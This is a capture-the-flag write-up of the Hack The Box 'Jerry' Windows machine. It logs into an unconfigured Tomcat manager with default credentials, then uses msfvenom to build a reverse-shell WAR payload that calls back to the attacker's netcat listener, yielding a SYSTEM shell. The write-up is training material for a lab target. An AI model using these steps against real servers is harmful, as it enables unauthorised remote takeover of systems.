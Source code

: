 ```yaml
---
permalink: /posts/HTB/Jerry
title:  "HTB Jerry"
author: Luc Kolen
description: "Jerry is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags: 
  - HTB-Easy
  - Windows 
  - Tomcat
---
```

# 10.10.10.95 - Jerry

- [10.10.10.95 - Jerry](#10101095---jerry)
  - [Open ports](#open-ports)
  - [Tomcat](#tomcat)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Jerry$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.95
```

![NMAP results](/assets/images/HTB-Jerry/1.a%20NMAP%20results.png)

|Port|Service|
|---|---|
|8080/tcp|Apache Tomcat/Coyote JSP engine 1.1|

## Tomcat

The only available port is `8080` with Apache Tomcat running. Browsing to `http://10.10.10.95:8080/` only shows the default page so it hasn't been setup. A service that hasn't been setup has a high chance of using default credentials. Browsing to the admin panel at `http://10.10.10.95:8080/manager/html` shows us a 401 error message, but also the explanation on how to setup Tomcat and the default credentials `username:tomcat` and `password:s3cret`.

![Tomcat 401 page showing default credentials](/assets/images/HTB-Jerry/1.b%20Tomcat%20401%20page%20showing%20default%20credentials.png)

Refreshing the page and entering these credentials will show us the `Tomcat Web Application Manager`. This page allows us to deploy a WAR file on the server. We can use MSFVenom to create our payload as a WAR file.

```bash
luc@kali:~/HTB/Jerry/payload$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f war > shell.war
```

![Upload created WAR file](/assets/images/HTB-Jerry/1.c%20Upload%20created%20WAR%20file.png)

Opening `http://10.10.10.95:8080/shell/` after uploading our WAR file will execute the payload and open a connection to the Netcat listener. Tomcat was running as system so there is no need for privilege escalation.

```bash
luc@kali:~/HTB/Jerry$ sudo nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49193.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
nt authority\system
C:\apache-tomcat-7.0.88>cd ../Users/Administrator/Desktop/flags
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
7004dbce************************

root.txt
04a8b36e************************
```

## TL;DR

- Tomcat is running with default manager credentials
- Uploaded WAR file can be executed by the user for a shell as `nt authority\system`
